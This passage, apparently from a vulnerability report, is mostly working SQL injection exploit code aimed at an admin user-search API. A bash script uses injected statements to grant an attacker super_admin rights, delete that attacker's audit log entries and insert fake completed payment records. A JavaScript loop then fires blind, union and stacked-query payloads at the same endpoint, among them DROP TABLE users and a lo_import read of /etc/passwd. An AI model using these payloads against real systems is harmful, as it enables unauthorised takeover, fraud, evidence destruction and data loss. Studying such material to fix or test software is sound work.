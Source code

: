 ```bash
echo "[+] Promoting to admin..."
PAYLOAD="test'; INSERT INTO admin_users (user_id, roles, permissions) VALUES ('${ATTACKER_USER_ID}', ARRAY['super_admin'], ARRAY['manage_admins','manage_users','impersonate']);--"
curl -s -X GET "${TARGET_API}/api/admin/users?search=${PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}"

# Attack 3: Delete audit logs
echo "[+] Deleting audit trail..."
PAYLOAD="test'; DELETE FROM admin_audit_logs WHERE admin_user_id='${ATTACKER_USER_ID}';--"
curl -s -X GET "${TARGET_API}/api/admin/users?search=${PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}"

# Attack 4: Modify Stripe charges
echo "[+] Falsifying payment records..."
PAYLOAD="test'; INSERT INTO credit_purchases (purchase_id, user_id, panels_purchased, amount_dollars, status) VALUES (gen_random_uuid(), '${ATTACKER_USER_ID}', 10000, 0, 'completed');--"
curl -s -X GET "${TARGET_API}/api/admin/users?search=${PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}"

echo "[+] Database manipulation complete!"
```

#### Advanced Exploitation
```javascript
// JavaScript payload for automated exploitation
const attacks = [
  // Boolean-based blind SQLi
  "test' AND 1=1--",
  "test' AND 1=2--",
  
  // Time-based blind SQLi
  "test' AND SLEEP(5)--",
  "test' AND pg_sleep(5)--",
  
  // Union-based SQLi
  "test' UNION SELECT NULL,NULL,NULL--",
  
  // Stacked queries
  "test'; DROP TABLE users;--",
  
  // Out-of-band data exfiltration
  "test' UNION SELECT lo_import('/etc/passwd')--"
];

for (const payload of attacks) {
  const response = await fetch(`/admin/users?search=${encodeURIComponent(payload)}`, {
    headers: { 'Authorization': `Bearer ${adminToken}` }
  });
  console.log(payload, response.status, await response.json());
}
```
